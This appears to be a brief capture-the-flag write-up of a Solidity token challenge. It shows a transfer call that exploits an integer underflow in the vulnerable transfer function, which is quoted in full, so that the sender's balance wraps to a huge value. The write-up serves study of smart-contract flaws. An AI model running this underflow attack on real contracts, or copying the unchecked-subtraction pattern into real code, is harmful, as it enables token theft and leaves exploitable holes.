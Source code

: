 Run `await contract.transfer("some other ethereum address","21")` and your connected account will have lot of tokens.
This hack works due to uint underflow in solidity 0.6.0.
The `_value` parameter in `transfer` function is uint
```solidity
function transfer(address _to, uint _value) public returns (bool) {
  require(balances[msg.sender] - _value >= 0);
  balances[msg.sender] -= _value;
  balances[_to] += _value;
  return true;
}
```
As each address has `20` tokens by default giving value as `21` the balance will
become `20-21` which is `-1` which equals to `2**256-1` in `uint`
